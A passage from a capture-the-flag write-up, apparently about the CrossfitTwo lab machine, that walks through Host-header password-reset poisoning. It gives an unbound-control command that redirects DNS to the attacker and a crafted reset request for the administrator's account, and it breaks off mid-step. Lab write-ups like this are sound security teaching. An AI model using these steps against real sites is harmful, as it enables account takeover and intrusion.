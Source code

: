 The next step was inspired by [this HackerOne
report](https://hackerone.com/reports/281575). Basically, the site wanted the
password reset script to be robust against website name changes, so it used
the `Host` header to generate the link that gets sent to the user.

I can modify the `Host` header in a password reset request. I’ll need to do it
so that `relayd` still routes it to the Employees site. I can use `unbound-
control` so that the domain resolves to me, and that will get an admin
requesting a page from my host. I can return a page with the JavaScript
necessary to make the request to the API to create an account for me. If that
works, I’ll have an account and can log in.

#### Initial Password Reset Request

I need a domain name that will route through `relayd` and reach the site on
8001, so it will have to match `*employees.crossfit.htb`. I don’t want to
hijack the entire site, but I showed above that something like `0xdf-
employees.crossfit.htb` will reach the site on 8001.

I’ll use `unbound-control` to tell CrossfitTwo that I’m the server for that
zone (it’s worth noting that this is cleared every few minutes, so worth
resending if things stop working):

    
    
    oxdf@parrot$ sudo unbound-control -s 10.10.10.232 forward_add +i 0xdf-employees.crossfit.htb 10.10.14.13@53
    ok
    

While I’m still testing to see if this is going to work, I’ll just listen on
UDP 53 with `nc` to see if that resolution happens.

I’ll go back and submit a password reset request for david.palmer@crossfit.htb
(because his username was administrator) just like above, but catch the
request in Burp Proxy and kick it to Repeater. I’ll update the `Host` header
to the new domain:

    
    
    POST /password-reset.php HTTP/1.1
    Host: 0xdf-employees.crossfit.htb
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 33
    Origin: http://employees.crossfit.htb
    DNT: 1
    Connection: close
    Referer: http://employees.crossfit.htb/password-reset.php
    Upgrade-Insecure-Requests: 1
    
    email=david.palmer%40crossfit.htb
    

On sending, there’s a request immediately at `nc`:
